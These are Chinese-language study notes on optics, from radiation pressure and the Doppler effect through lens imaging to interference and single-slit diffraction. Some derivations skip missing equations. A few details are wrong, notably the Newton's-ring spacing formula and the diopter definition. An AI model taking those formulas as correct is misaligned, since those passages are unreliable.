电磁波的动量密度为 $$ \overrightarrow{g} = \dfrac{1}{c^2} \overrightarrow{S} = \dfrac{1}{c^2} (\overrightarrow{E} \times \overrightarrow{H}) $$
光压¶
因为光就是一种电磁波，所以光照射在物体上也会有压力作用，称之为光压
- 对于黑体（吸收所有的光）来说，光压的大小为 $ P = \dfrac{1}{c} \left| \overrightarrow{S}_{in} \right| = \dfrac{1}{c} EH $
- 对于白体（反射所有的光）来说，光压的大小为 $ P = \dfrac{2}{c} \left| \overrightarrow{S}_{in} \right| = \dfrac{2}{c} EH $
Example

几何光学¶
约 3484 个字 23 张图片 预计阅读时间 14 分钟
可见光¶

可见光
- 可见光波长范围：\(400nm - 700nm\)
- 可见光频率范围：$7 \times 10^{14} Hz - 4 \times 10^{14} Hz $
- 波长与频率对应的关系：\(\lambda f = c\)
- 人眼最敏感的可见光波长为 \(550nm\) 左右，为黄绿光
- 波长越长，则频率越低、能量越低，因此红光能量最低，紫光能量最高
波的多普勒效应¶
多普勒效应
$$ f = f_0 \dfrac{v \pm v_0}{v \pm v_s} $$ 其中 \(v_0\) 表示观测者的运动速度，\(v_s\) 表示波源的运动速度
对于光波来说，需要使用相对论多普勒效应 $$ f = f_0 \dfrac{ \sqrt{1 - \dfrac{u^2}{v^2} } }{ 1+\dfrac{u}{v} \cos\theta } $$
其中 \(f_0\) 是在波源保持静止的参考系中测得的频率，\(\theta\) 是相对运动方向与光波传播方向的夹角
-
横向（transverse）多普勒效应：\(\theta = \dfrac{\pi}{2}\) $$ f = f_0 \sqrt{1 - \dfrac{u^2}{v^2} } $$
-
纵向（longitudinal）多普勒效应：
-
波源靠近 \(\theta = \pi\): $$ f = f_0 \sqrt{\dfrac{1+\frac{u}{c}}{1-\frac{u}{c}}} $$
-
波源远离 \(\theta = 0\)： $$ f = f_0 \sqrt{\dfrac{1-\frac{u}{c}}{1+\frac{u}{c}}} $$
-
对于光波，会出现红移和蓝移现象
-
红移：光源和观察者彼此远离，频率减小，波长增大，光谱向红光靠近 $$ f = f_0 \sqrt{\dfrac{1-\frac{u}{c}}{1+\frac{u}{c}}} $$
-
蓝移：光源和观察者彼此接近，频率增大，波长减小，光谱向蓝光靠近 $$ f = f_0 \sqrt{\dfrac{1+\frac{u}{c}}{1-\frac{u}{c}}} $$
几何光学¶
Info
-
几何光学：在光沿直线传播的情况下讨论问题，遇见的物体大小远大于光的波长\(\lambda\)
mirrors(反射镜)， lenses(透镜)， prisms(棱镜)
-
物理光学：光的传播通过狭缝或是遇见的物体尺寸非常小，足以和光的波长\(\lambda\)相比，需要考虑波动性
reflection(反射)， refraction(折射)， interference(干涉)， diffraction(衍射)， polarization(偏振)
几何光学三定律
- 光沿直线传播：光在均匀介质中沿直线传播
- 光的反射定律：反射角等于入射角
-
光的折射定律：折射角、入射角和折射率之间存在如下关系 $$ n_1 \sin \theta_1 = n_2 \sin \theta_2 $$
其中 \(n_1\) 和 \(n_2\) 分别是两种介质的折射率，\(\theta_1\) 和 \(\theta_2\) 分别是入射角和折射角
折射率的定义：\(n = \dfrac{c}{v}\)，其中 \(c\) 是真空中的光速，\(v\) 是介质中的光速，根据麦克斯韦方程组，我们知道折射率为 \(n = \sqrt{\kappa_e \kappa_m}\)
在相同的介质中，不同频率的光的折射率也有所不同，频率越高，折射率越大 $$ n_{blue} = 1.53, \quad n_{red} = 1.52 $$
全反射¶
当光从光密介质射入光疏介质（如从玻璃或水到空气），当入射角大于临界角时，光就不会再发生折射，而是全部被反射回光密介质，这种现象称为全反射

当入射角恰好达到临界角时，折射角为 \(\theta_2 = 90^\circ\)，又由 \(n_1 \sin \theta_1 = n_2 \sin \theta_2\)，可得 $$ \sin \theta_1 = \dfrac{n_2}{n_1} $$
Tip
空气中的折射率为 1，因此我们可以以下公式求解某介质的折射率 $$ n = \dfrac{\sin \theta_1}{\sin \theta_2} $$ 其中 \(\theta_1\) 为空气中的入射角，\(\theta_2\) 为折射角
色散¶

色散是指白光或复色光在通过介质时，由于其中不同波长的光由于折射率的不同而产生的不同程度的偏折，从而使得白光被分解为各种单色光的现象。这是光的波动性的一种表现
在相同的介质中，不同频率的光的折射率也有所不同，频率越高（波长越短），折射率越大；频率越低（波长越长），折射率越小
- 短波长的光（如紫光）波长小，频率高，折射率大，偏折角大
- 长波长的光（如红光）波长大，频率低，折射率小，偏折角小
求棱镜的折射率

原光线与经过棱镜折射后的光线夹角为 \(\delta\)，棱镜的顶角为 \(\alpha = i_2 - i'_2\)
要求出棱镜的折射率，我们需要知道偏移角 \(\delta\) 的最小值。对 \(\delta\) 关于入射角 \(i_1\) 求导，令导数为 0，即可求得最小值 $$ \dfrac{d\delta}{di _ 1} = 1 + \dfrac{di' _ 1}{di _ 1} = 0 $$ 因此我们知道此时 \(i_1 = i'_1\)，带入求得 \(\delta_{min} = 2i _ 1 - \alpha\) 后，再带入折射定律，即可求得折射率 $$ n = \dfrac{\sin \left( \dfrac{\delta _ {min} + \alpha}{2} \right) }{\sin \dfrac{\alpha}{2}} $$
惠更斯原理¶
惠更斯原理
波前（例如球面波或平面波的最边缘）上的每一点都可以被看作是一个新的次波源，这些次波源会以相同的速度向外发出次级波前。通过将所有这些次级波前叠加起来，可以得到新的总波前。这意味着，任何时刻的总波前都是由之前所有点产生的次级波前组合而成的。


惠更斯原理解释光的反射和折射

-
反射： $$ A_1 C_1 = A_n B_n = v_1 t_n $$ $$ \Delta A_1 C_1 B_n \cong \Delta B_n A_n A_1 $$ $$ \therefore \angle A_n A_1 B_n = \angle C_1 B_n A_1 $$ 最后就可以得到反射定律：反射角等于入射角 $$ \Rightarrow i_1' = i_1 $$
-
折射： $$ \angle D_1 B_n A_1 = i_2 $$ $$ \sin i_2 = \frac{A_1 D_1}{A_1 B_n}, \quad \sin i_1 = \frac{A_n B_n}{A_1 B_n} $$ $$ \therefore \frac{\sin i_1}{\sin i_2} = \frac{A_n B_n}{A_1 D_1} = \frac{v_1 t}{v_2 t} = \frac{v_1}{v_2} $$
这时我们把 \(v=\dfrac{c}{n}\) 带入上式，就可以得到折射定律 $$ \dfrac{\sin i_1}{\sin i_2} = \dfrac{n_2}{n_1} $$
费马原理¶

光在介质中的运动速度小于真空中的光速，在同等的时间内，光在介质中的运动距离要更短。我们将光程定义为在相同的时间内，光在介质中的运动距离乘以介质的折射率，也就是说，光程相当于光在真空中运动的“等效距离” $$ L = n_1 s_1 + n_2 s_2 $$ 其中 \(s_1\) 和 \(s_2\) 分别是光在两种介质中的实际运动距离，\(n_1\) 和 \(n_2\) 分别是两种介质的折射率
对于更一般的情况，我们采用积分的形式 $$ L = \int n ds $$
费马原理
费马原理是指，若光线在传播过程中可以成像，那么光程的变分为零（对于某一个变量求偏导为零，也就是光程取极值），即 $$ \delta L = \delta \int n ds = 0 $$
使用费马原理证明反射和折射

如图所示，光在空气中照射到介质发生反射，光程为 $$ L = \sqrt{a^2 + x^2} + \sqrt{b^2 + (d-x)^2} $$
对光程求变分，令 \(\delta L = 0\)，即 $$ \dfrac{dL}{dx} = \dfrac{x}{\sqrt{a^2 + x^2}} - \dfrac{d-x}{\sqrt{b^2 + (d-x)^2}} = 0 $$ 于是我们就得到 $$ \dfrac{x}{\sqrt{a^2 + x^2}} = \dfrac{d-x}{\sqrt{b^2 + (d-x)^2}} $$ 即 $$ \sin \theta_1 = \sin \theta_2 \Rightarrow \theta_1 = \theta_2 $$ 反射角等于入射角，这就是反射定律

如图所示，光在从折射率为 \(n_1\) 的介质射入折射率为 \(n_2\) 的介质，光程为 $$ L = n_1 \sqrt{a^2 + x^2} + n_2 \sqrt{b^2 + (d-x)^2} $$
对光程求变分，令 \(\delta L = 0\)，即 $$ \dfrac{dL}{dx} = n_1 \dfrac{x}{\sqrt{a^2 + x^2}} - n_2 \dfrac{d-x}{\sqrt{b^2 + (d-x)^2}} = 0 $$ 于是我们就得到 $$ n_1 \dfrac{x}{\sqrt{a^2 + x^2}} = n_2 \dfrac{d-x}{\sqrt{b^2 + (d-x)^2}} $$ 即 $$ n_1 \sin \theta_1 = n_2 \sin \theta_2 $$ 这就是折射定律
成像¶
光线经过透镜折射或者镜面反射后，会在一定位置形成物体的像，像分为实像和虚像，成像的物体也可分为实物和虚物


- 实像：经过折射或反射后的实际光线通过同一点，就称在交点处形成实像
- 虚像：经过折射或反射后的光线不通过同一点，但它们的反向延长线交于一点，就称在交点处形成虚像
- 实物：出发光线交汇于同一点（从同一点出发）
- 虚物：出发光线不交汇于同一点，但出发光线的延长线交于一点
根据费马原理我们知道成像时所有的光线等光程。
我们讨论的问题一般是物体从透镜左边发出光线，在透镜右侧成像，因此称左侧为物方，右侧为像方。
球面镜成像¶

我们首先讨论球面镜折射成像的规律，在上图中，点 \(C\) 为球心，\(r\) 为半径，\(Q\) 和 \(Q'\) 分别是物体和像的位置，物和像距离球面的距离分别为 \(o\) 和 \(i\)
首先在三角形 \(QCM\) 和 \(Q'CM\) 中使用正弦定理
其中 \(n \sin \theta = n' \sin \theta'\)，\(\theta - u = \theta' + u' = \phi\)
于是得到
我们再使用余弦定理，并带入 \(\cos \phi = 1 - 2\sin^2 \dfrac{\phi}{2}\)
代回前面的式子就得到 $$ \Longrightarrow \dfrac{o^2}{n^2 (o+r)^2} - \dfrac{i^2}{n'^2 (i-r)^2} = -4r \sin^2 \dfrac{\phi}{2} \left[ \dfrac{1}{n^2 (o+r)} + \dfrac{1}{n'^2 (i-r)} \right] $$
上面这个式子告诉我们，由于从同一点出发的光线的 \(\phi\) 不同，成像的位置也会不同，因此球面不能成像。
仅有两种情况下球面可以成像
-
其中一种情况满足
\[ \begin{cases} \dfrac{o^2}{n^2 (o+r)^2} - \dfrac{i^2}{n'^2 (i-r)^2} = 0 \\\\ \dfrac{1}{n^2 (o+r)} + \dfrac{1}{n'^2 (i-r)} = 0 \end{cases} \]此时 \(o\) 和 \(i\) 与 \(\phi\) 无关，物和像所在的这一对点我们称为齐明点。
-
另一种情况是傍轴近似的情况，即 \(\phi\) 很小 $$ \sin^2 \dfrac{\phi}{2} \approx \dfrac{\phi^2}{4} \to 0 $$
此时我们可以近似得到 $$ \dfrac{o^2}{n^2 (o+r)^2} = \dfrac{i^2}{n'^2 (i-r)^2} $$ 即 $$ \dfrac{o}{n (o+r)} = \dfrac{i}{n' (i-r)} $$ $$ \dfrac{n'}{i} + \dfrac{n}{o} = \dfrac{n'-n}{r} $$
当 \(i \to \infty\) 时，我们可以得到这个球面镜的第一焦距为 $$ f = \dfrac{n}{n'-n} r $$ 当 \(o \to f\) 时，我们可以得到这个球面镜的第二焦距为 $$ f' = \dfrac{n'}{n'-n} r $$ 于是 $$ \dfrac{f}{f'} = \dfrac{n}{n'} \Longrightarrow \dfrac{f}{o} + \dfrac{f'}{i} = 1 $$
这就是球面镜的焦距公式
符号约定
我们假设光线从左侧照射到右侧
-
\(Q\) 在左侧时为实物，\(o>0\)
\(Q\) 在右侧时为虚物，\(o<0\)
-
\(Q'\) 在右侧时为实像，\(i>0\)
\(Q'\) 在左侧时为虚像，\(i<0\)
-
球心 \(C\) 在左侧时为凹面镜，\(r<0\)
球心 \(C\) 在右侧时为凸面镜，\(r>0\)


球面镜反射成像¶

球面镜发生反射时，\(Q\) 和 \(Q'\) 都在左侧，成虚像 \(i < 0\)
事实上反射可以看作是折射的一种特殊情况 $$ n \sin \theta = n' \sin \theta' $$
如果 \(\theta > 0\)，则 \(\theta' < 0\)，就得到 $$ n = -n' $$
于是第一和第二焦距分别为 $$ f = \dfrac{n}{n'-n} r = -\dfrac{r}{2} $$ $$ f' = \dfrac{n'}{n'-n} r = \dfrac{r}{2} $$
带入焦距公式 $ \dfrac{f}{o} + \dfrac{f'}{i} = 1 $ 就可以得到 $$ \dfrac{1}{o} + \dfrac{1}{i} = -\dfrac{2}{r} $$
特别的，对于一个平面镜，可以认为 \(r \to \infty\)，此时焦距公式就变为 $$ \dfrac{1}{o} + \dfrac{1}{i} = 0 $$
即物体和像到镜面的距离相等
傍轴物点成像和横向放大率¶

我们记物体和像距离透镜轴线的距离分别为 \(y, y'\)，我们规定在轴线上方时为正，下方时为负。
当物体很靠近轴线时，\(y^2, y'^2 << o^2, i^2, r^2\)，并且 $$ n\theta \approx n'\theta',\quad y \approx o \cdot \theta,\quad y' \approx i \cdot \theta' $$
因此放大率为 $$ m = \dfrac{y'}{y} = -\dfrac{i\theta'}{o\theta} = -\dfrac{ni}{n'o} $$
对于反射，则是 $$ m = -\dfrac{i}{o} $$
薄透镜成像¶
对于绝大多数的情况，光不止会经过一个折射面


对这两个面分别使用球面镜成像的公式，我们可以得到
\[ \begin{cases} \dfrac{f_1}{o_1} + \dfrac{f'_1}{i_1} = 1 \\\\ \dfrac{f_2}{o_2} + \dfrac{f'_2}{i_2} = 1 \end{cases} \] \[ \begin{aligned} f_1 = \dfrac{n}{n_L-n} r_1, \quad f'_1 = \dfrac{n_L}{n_L-n} r_1 \\ f_2 = \dfrac{n_L}{n'-n_L} r_2, \quad f'_2 = \dfrac{n'}{n'-n_L} r_2 \end{aligned} \]
其中我们知道 \(-o_2 = i_1 - d\)，即 \(o_2 = d - i_1\)，当透镜是一个薄透镜时，\(d\) 很小，\(i_1 \approx o_2\)，因此
磨镜者公式
将上面的式子与下式进行比较 $$ \dfrac{f}{o} + \dfrac{f'}{i} = 1 $$
可以得到下面两个式子
所以 \(\dfrac{f'}{f} = \dfrac{n'}{n}\)，如果在空气中, \(n=n'=1\)
最终就可以得到磨镜者公式 $$ f = f' = \dfrac{1}{ (n_L - 1) (\dfrac{1}{r_1} - \dfrac{1}{r_2}) } $$
凸透镜与凹透镜
- 如果 \(f>0, f'>0\) 则说明透镜是一个凸透镜（converging lens）
- 如果 \(f<0, f'<0\) 则说明透镜是一个凹透镜（diverging lens）
成像焦距公式¶
对于 $$ \dfrac{f}{o} + \dfrac{f'}{i} = 1 $$
如果 \(n=n', f=f'\) 就可以得到高斯形式的成像焦距公式 $$ \dfrac{1}{o} + \dfrac{1}{i} = \dfrac{1}{f} $$

对于上图来说，如果 $$ o = f + x $$ $$ i = f' + x' $$ 就有 $$ \dfrac{1}{f + x} + \dfrac{1}{f' + x'} = \dfrac{1}{f} $$
就得到牛顿形式的成像焦距公式 $$ x x' = f^2 = f f' $$
Tip
- 当物体 \(Q\) 在左焦点 \(F\) 左边时，\(x>0\)；在右边时，\(x<0\)
- 当像 \(Q'\) 在右焦点 \(F'\) 右边时，\(x'>0\)；在左边时，\(x'<0\)
横向放大倍数¶
现在我们回过头来讨论上面这幅图的放大倍数，首先我们有
两个折射面的放大倍率分别为 $$ m_1 = -\dfrac{n i_1}{n_L o_1} \quad m_2 = -\dfrac{n_L i_2}{n' o_2} $$
于是总的放大倍数为
屈光度
屈光度（diopter）定义为焦距的倒数， $$ P = \dfrac{1}{f(m)} $$ 其中 \(m\) 是放大倍数
例如 \(f = -50cm =-0.5m\)，则 \(P = -2.00D\) 为 200 度
波动光学¶
约 6664 个字 53 张图片 预计阅读时间 27 分钟
Abstract
在几何光学中，\(\lambda << d\)，即光波的波长远小于光程差，可以忽略波动性。而在波动光学中，\(\lambda \approx d\)，即光波的波长与光程差比较接近，波动性不能忽略。
主要包括三个部分
- Interference 干涉
- Diffraction 衍射
- Polarization 偏振
干涉（Interference）¶
定态光波¶
所谓定态波就是指波的振幅和相位都与时间无关的波，例如 $$ U(P,t) = A(P) \cos(\omega t - \varphi(P)) $$ 中的 \(A(P)\) 和 \(\varphi(P)\) 都是仅仅与空间有关，而与时间无关的函数。
Example
-
定态平面波
\[ \begin{aligned} & \begin{cases} A(P) = A_0 ,\text{constant, independent of (x,y,z)} \\ \varphi(P) = \overrightarrow{k} \cdot \overrightarrow{r} + \varphi_0 = k_x x + k_y y + k_z z + \varphi_0 \end{cases} \\\\ & k = \dfrac{2\pi}{\lambda}, \quad \overrightarrow{r} = x \overrightarrow{i} + y \overrightarrow{j} + z \overrightarrow{k} \end{aligned} \] -
定态球面波
\[ \begin{cases} A(P) = \dfrac{a}{r} \\ \varphi(P) = kr \varphi_0 \end{cases} \]
光也是一种波，因此定态光波可以描述为 $$ \overrightarrow{E}(P,t) = \overrightarrow{E}_0 (P) \cos(\omega t - \varphi(P)) $$ $$ \overrightarrow{H}(P,t) = \overrightarrow{H}_0 (P) \cos(\omega t - \varphi(P)) $$
波的负数描述¶
\[ \begin{aligned} & U(P,t) = A(P) \cos[\omega t - \varphi(P)] \\ \Longleftrightarrow \quad & \widetilde{U}(P,t) = A(P) e^{\pm i[\omega t - \varphi(P)]} \end{aligned} \] 上面的正负符号的不同是来自于欧拉公式的不同形式，但是在实际应用中，我们通常使用负号。
对于一个定态波，我们可以把它的空间和时间分离，即 $$ \widetilde{U}(P,t) = A(P) e^{i[\varphi(P) - \omega t]} = A(P) e^{i\varphi(P)} e^{-i\omega t} $$ 其中，\(\widetilde{U}(P) = A(P) e^{i\varphi(P)}\) 是波的复振幅，\(e^{-i\omega t}\) 是波的时间因子。
Note
- 平面波 $$ \widetilde{U}(P) = e^{i(\overrightarrow{k} \cdot \overrightarrow{r} + \varphi_0)} = A e^{i(k_x x + k_y y + k_z z + \varphi_0)} $$
- 球面波 $$ \widetilde{U}(P) = \dfrac{a}{r} e^{i(kr + \varphi_0)} $$
波的强度与振幅的平方成正比，即 \(I \propto |A|^2\)，但是一般而言我们会直接使用等号 $$ I(P) = [A(P)]^2 = \widetilde{U}^*(P) \cdot \widetilde{U}(P) $$
波的干涉与相干条件¶
两列波叠加的结果为 $$ \widetilde{U}(P,t) = \widetilde{U}_1(P,t) + \widetilde{U}_2(P,t) = [A_1(P) e^{i\varphi_1(P)} + A_2(P) e^{i\varphi_2(P)}] e^{-i\omega t} $$
因此叠加得到的波的强度为
由于 \(I_1(P) = A_1^2,\, I_2(P) = A_2^2\)，因此两列波的强度之和为 $$ I(P) = I_1(P) + I_2(P) + 2 \sqrt{I_1(P) I_2(P)} \cos(\varphi_1 - \varphi_2) $$
干涉现象的光强分布

因此一般来说 \(I(P) \neq I_1(P) + I_2(P)\)，只有当 \(\varphi_1 - \varphi_2 = 2n\pi\) 时，两列波才是完全相干的。
两个光波之间的相位差 \(\Delta \varphi = \varphi_1 - \varphi_2\) 是干涉现象的关键，当相位差不固定时，那么它在在统计意义上的平均值为零，即 $$ \overline{\cos \Delta \varphi} = \overline{\cos(\varphi_1 - \varphi_2)} = 0 $$ 当两列波的相位差会随时间变化时，我们称两列波不相干（incoherent）。
产生干涉的条件：
- \(\omega_1 = \omega_2 = \omega\)
- \(\varphi_1 - \varphi_2 = \text{constant}\)
- \(\overrightarrow{U}_1 \parallel \overrightarrow{U}_2\)
介质中的光程差¶
相位差在分析光的干涉时十分重要，为便于计算光通过不同媒质时的相位差，我们引入“光程差”的概念。
根据已经学习到的知识，我们知道光程就是 \(L = \int n ds\)，因此光程差就是两束光运动的距离之差乘上介质的折射率。由于光波的相位与它传播的距离（光程）相关，那么我们可以知道相位差与光程差的关系为 $$ \Delta \varphi = \dfrac{2\pi}{\lambda} \Delta L $$ 其中 \(\Delta L\) 是光程差，\(\lambda\) 是光的波长
光的干涉
光相干的条件为
- 频率相同
- 振动方向相同
- 相位差恒定
判断光是否干涉： $$ \begin{aligned} & \Delta \varphi = \begin{cases} \pm 2k\pi, &k=0,1,2,\cdots \text{干涉增强} \\\\ \pm (2k+1)\pi, &k=0,1,2,\cdots \text{干涉减弱} \end{cases} \\\\ & \Delta L = \begin{cases} \pm k\lambda, &k=0,1,2,\cdots \text{干涉增强}\\\\ \pm (2k+1)\dfrac{\lambda}{2}, &k=0,1,2,\cdots \text{干涉减弱} \end{cases} \end{aligned} $$
杨氏双缝干涉实验¶

杨氏双缝实验需要满足的条件是
- 两缝之间的间距 \(d\) 要远大于光的波长 \(\lambda\)，即 \(d >> \lambda\)
- 缝到屏幕的距离 \(D\) 要远大于缝之间的距离 \(d\)，即 \(D >> d\)。

光程差 \(\Delta L = r_2 - r_1 \approx d \sin \theta \approx d \tan\theta = d \cdot \dfrac{x}{D}\)
- 干涉相长：\(d \sin\theta = m\lambda\)
- 亮纹中心：\(x = \dfrac{m\lambda D}{d}\)
- 干涉相消：\(d \sin\theta = (m + \dfrac{1}{2})\lambda\)
- 暗纹中心：\(x = \dfrac{(m + \dfrac{1}{2})\lambda D}{d}\)
- 两相邻亮纹（暗纹）的间距：\(\Delta x = \dfrac{D}{d}\lambda\)
Question
-
将双缝干涉装置由空气中放入水中时，屏上的干涉条纹有何变化？
由于水的折射率大于空气折射率，因此光在水中的波长减小，根据 \(\Delta x = \dfrac{D}{d}\lambda\)，条纹间距会减小
-
若使用白光为光源进行双缝干涉实验，可以观察到几级清晰可辨的彩色光谱？
用白光照射时，在中央白色明纹两侧，只有第一级彩色光谱是清晰可辨的。
Tip
当两缝的间距小于光的波长时，将无法看到干涉亮条纹。
-
因为亮条纹要求 \(d \sin\theta = m \lambda\)，即 \(\sin\theta = \dfrac{m \lambda}{d}\)。
-
当 \(d < \lambda\) 时，就有 \(\sin\theta > 1\)，这是不可能的，因此无法看到亮条纹。
洛埃德镜实验¶

- 当屏移到 \(A'B'\) 位置时，在屏上的 \(P\) 点会出现暗条纹。这一实验结果表明当光在镜子表面发生反射时，反射光的相位会变化一个 \(\pi\)。
半波损失（Reflection Phase Shifts）
- 光从光疏介质反射到光密介质，反射光的相位会变化一个 \(\pi\)。
- 光从光密介质反射到光疏介质，反射光的相位不变。

可以类比于上面的更一般的波的反射，当波传播到更“难”传播，或者说更“稠密”的介质中时，反射回来的波会有一个 \(\pi\) 的相位差，这就是半波损失。
- 折射波不会出现半波损失
等厚干涉¶

可以通过计算证明，在分别在上表面和下表面反射的两束光的光程差为 $$ \Delta L = 2nh \cos i $$
- 亮条纹（maxmum）：\(\Delta L = 2nh \cos i = m\lambda\)
- 暗条纹（minmum）：\(\Delta L = 2nh \cos i = (m + \dfrac{1}{2})\lambda\)
Tip
这里要注意，如果 \(n_1 < n\)，那么在反射时会产生半波损失，那么光程差就相当于 \(2nh \cos i + \dfrac{\lambda}{2}\)。
通常而言我们考虑垂直入射的情况，即 \(i = 0\)，那么光程差就化简为 $$ \Delta L = 2nh $$
劈尖膜¶

由于光线在空气劈尖的下表面发生反射时会有半波损失，因此实际的光程差为 $$ \Delta L = 2nh + \dfrac{\lambda}{2} $$ 其中 \(h\) 为入射位置对应的空气劈尖厚度。
于是发生干涉时，亮条纹和暗条纹的条件为
亮、暗条纹对应的厚度为 \[ h = \begin{cases} \dfrac{(m-\dfrac{1}{2})}{2n} \lambda, & m = 1,2,3,\cdots \quad \text{亮条纹} \\\\ \dfrac{m}{2n} \lambda, & m = 0,1,2,\cdots \quad \text{暗条纹} \end{cases} \] 于是相邻的两个条纹对应的厚度差为 \(\Delta h = \dfrac{\lambda}{2n}\)
Example

如果工件的表面是完全平滑没有凹凸的，那么等厚干涉条纹将会是等间距交错的明暗条纹，并且所有连续条纹对应位置的空气劈尖厚度一定是相同的。
如果出现下凹，那么下凹处的披肩厚度将会比周围的厚度大，因此会观测到干涉条纹向着厚度更低的地方弯曲。
例如上图中干涉条纹弯向空气膜的左端，红线上的劈尖厚度处处相等，因此可以知道左侧的表面出现了下凹。利用相似三角形的知识我们可以知道 $$ \dfrac{a}{b} = \dfrac{\Delta h}{e_k - e_{k+1}} = \dfrac{\Delta h}{\lambda / 2} $$ 这里 \(e_k\) 表示第 \(k\) 级条纹对应的劈尖厚度，并且在空气中 \(n=1\)，所以 $$ \Delta h = \dfrac{a}{b} \dfrac{\lambda}{2} $$
牛顿环¶

根据几何关系， $$ r^2 + (R - e)^2 = R^2 $$ 由于 \(e\) 很小，所以它的二次项可以忽略，因此 $$ e = \dfrac{r^2}{2R} $$
导入到上面光程差的式子中，计算得到
于是我们知道牛顿环干涉条纹是一系列明暗相间的同心圆环，并且中心是一个暗斑。

由于 $$ \Delta r = r_{m+1} - r_m = \dfrac{\sqrt{R\lambda}}{\sqrt{R} + \sqrt{R+1}} $$ 因此牛顿环的条纹间距是不等的，且内疏外密。
衍射（Diffraction）¶
光在传播过程中，会出现绕过障碍物的边缘而偏离直线传播的现象，这称为光的衍射现象。
菲涅耳衍射和弗朗和夫衍射


- 菲涅耳衍射：当光源和观察屏，或两者之一离障碍物（衍射屏）的距离为有限远时，所发生的衍射现象。（左图）
- 弗朗和夫衍射：光源和观察屏离障碍物的距离均为无限远时，所发生的衍射现象。（右图）
惠更斯—菲涅耳原理
- 惠更斯原理：媒质中波动所到达的各点都可以看作一个新的子波源，这些子波源向空间发射球面子波。在以后的任一时刻，这些子波的包络面就是波在该时刻的新的波阵面。
- 惠更斯—菲涅耳原理：波传到的任何一点都是子波的波源，各子波在空间某点的相干叠加，就决定了该点波的强度。

$$ \mathrm{d}E_P = C \dfrac{\mathrm{d}S}{r} K(\theta) \cos(\dfrac{2\pi}{\lambda} r \omega t + \varphi_0) $$ $$ E_P = \int_S C \dfrac{K(\theta)}{r} \cos(\dfrac{2\pi}{\lambda} r \omega t + \varphi_0) \mathrm{d}S $$ 其中 \(K(\theta)\) 为倾斜因子
- \(\theta = 0\) 时，\(K=K_{max}=1\)，沿原波传播方向的子波振幅最大
- \(\theta\) 增大时 \(K\) 减小
- \(\theta \geqslant \dfrac{\pi}{2}\) 时 \(K=0\)，因为子波不能向后传播
弗朗和夫衍射中的惠更斯—菲涅耳原理
由于在弗朗和夫衍射中光源和观察屏到障碍物的距离均为无限远，因此这时候 \(K(\theta)\) 和 \(r\) 都可以视作一个常数，因此 $$ E_P \propto \int_S \cos(\dfrac{2\pi}{\lambda} r \omega t + \varphi_0) \mathrm{d}S $$
弗朗和夫单缝衍射¶
实验装置图以及光路图如下


由于缝中各点的光都可以看作一个新的波源，我们考虑这些波源朝着角度为 \(\theta\) 的方向发射新的子波的情况，显然光程差为 \(\Delta L = \delta = a \sin\theta\)
当 \(\theta=0\) 时，子波的相干点 \(P\) 在中心轴上，没有光程差，相位相同，因此相干加强，形成中心明纹
菲涅耳半波带法¶
在波阵面上截取一个条状带，使它上下两边缘发的光在屏上 \(P\) 处的光程差为 \(\dfrac{\lambda}{2}\)，此带称为半波带。
- 例如当 \(a \sin\theta = \lambda\) 时，可将缝分为两个半波带
- 两相邻半波带上对应点在相同的 \(P\) 点处干涉相消，形成暗条纹

由半波带法可得条件：
- 暗纹：\(a \sin\theta = \pm k \lambda, \quad k = 1,2,3,\cdots\)
- 明纹（近似）：\(a \sin\theta = \pm (2k+1) \dfrac{\lambda}{2}, \quad k = 1,2,3,\cdots\)
- 中央明纹（中心）：\(a \sin\theta = 0\)
振幅矢量叠加法¶

我们知道可以把一个波用复数的形式表示，如右图就是一个波在复平面上的表示，波的实际振幅是它在实轴上的投影大小。
假如我们把一个单缝分割为多份，每一份的宽度都是 \(\Delta x\)，那么相邻两份之间的相位差就是 $$ \Delta \varphi = \dfrac{2\pi}{\lambda} \Delta x \sin\theta $$ 在复平面上的表现就是相邻两个波都相差一个 \(\Delta \varphi\) 的角度。


如上图所示，假如我们把一个缝分割成 \(N\) 份，那么
其中 \(\Delta \varphi = \dfrac{2\pi}{\lambda} \cdot \dfrac{a}{N} \sin\theta\) 是相邻矢量之间的夹角。
我们再把总的角度偏转记为 \(\delta = N \Delta \varphi = \dfrac{2\pi}{\lambda} a \sin\theta\)，我们令 $$ \alpha = \dfrac{\delta}{2} = \dfrac{\pi}{\lambda} a \sin\theta$$ 于是就得到
显然当 \(\theta=0\) 时光波的电场的强度最大，这时候 \(\mathop{MN}\limits^\frown = E_m\)，所以 $$ E_{\theta} = E_m \dfrac{\sin\alpha}{\alpha} $$ 在 \(P\) 点成像时光的强度为 $$ I_{\theta} = E_{\theta}^2 = E_m^2 \left( \dfrac{\sin\alpha}{\alpha} \right)^2 = I_m \left( \dfrac{\sin\alpha}{\alpha} \right)^2 $$
振幅矢量叠加法
-
当 \(\alpha = \dfrac{\pi a \sin\theta}{\lambda} = m\pi \quad m= \pm 1, \pm 2, \cdots\) 时
- \(I_{\theta} = I_m \left( \dfrac{\sin\alpha}{\alpha} \right)^2 = 0\)，出现暗纹（极小）
此时 \(a\sin\theta = m\lambda\)
-
当 \(\theta=0\) 时，\(\alpha = \dfrac{\pi a \sin\theta}{\lambda} \to 0, \, \lim\limits_{\alpha \to 0} (\dfrac{\sin\alpha}{\alpha}) = 1\)
- 于是 \(I_{\theta=0} = I_m\)
-
当 \(\alpha = \dfrac{\pi a \sin\theta}{\lambda} = (m+\dfrac{1}{2})\pi, \, a\sin\theta = (m+\dfrac{1}{2})\lambda\)，极大，出现亮纹

可以计算 \(m=1,2,\cdots\) 时与中心亮纹的光强之比为 $$ \dfrac{I_1}{I_m}=0.045,\, \dfrac{I_2}{I_m}=0.016,\, \dfrac{I_3}{I_m}=0.0083 $$ 对应的 \(\alpha\) 为 \(\pm 1.43\pi,\, \pm 2.46\pi,\, \pm 3.47\pi\) 这些较弱的亮纹称为次极大
半角宽度
我们把条纹宽度对应的衍射角宽度的一半称为半角宽度

例如在上图中，主极大的角宽度为 \(\Delta \theta_0\)，半角宽度为 \(\theta_1\) $$ \Delta \theta_0 = 2\theta_1 \approx 2 \dfrac{\lambda}{a} $$ 线宽度为 \(\Delta x_0 = 2 f \cdot \tan\theta_1 \approx 2f \theta_1 = 2f \dfrac{\lambda}{a}\)
- \(a\) 越大，半角宽度越小
- \(a\) 越小，半角宽度越大
Abstract
弗朗和夫园孔衍射¶

试验结果表明 $$\Delta \theta = 0.61 \dfrac{\lambda}{a} = 1.22 \dfrac{\lambda}{D} $$ 这里的 \(D\) 是小孔的直径，\(a\) 是小孔的半径
我们将中心的大亮斑称为爱里斑

瑞利判据与分辨本领¶
